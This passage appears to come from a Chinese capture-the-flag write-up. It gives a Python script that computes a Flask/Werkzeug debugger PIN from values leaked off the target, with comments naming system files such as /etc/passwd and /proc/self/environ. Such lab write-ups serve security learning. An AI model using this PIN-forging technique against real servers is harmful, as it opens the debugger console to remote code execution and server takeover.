 脚本

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'minictfer'# username  /proc/self/environ /etc/passwd
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.9/site-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892357',# /sys/class/net/eth0/address
    '0e3f1348-aaee-4680-ae33-6b3d626a9c91'
]

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
            continue
    if isinstance(bit, str):
        bit = bit.encode("utf-8")
    h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

num = None
if num is None:
    h.update(b"pinsalt")
    num = f"{int(h.hexdigest(), 16):09d}"[:9]

rv=None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = "-".join(
                num[x : x + group_size].rjust(group_size, "0")
                for x in range(0, len(num), group_size)
            )
            break
    else:
        rv = num

print(rv)
```

最后建议校内的同学能去调试一下

## ezsql
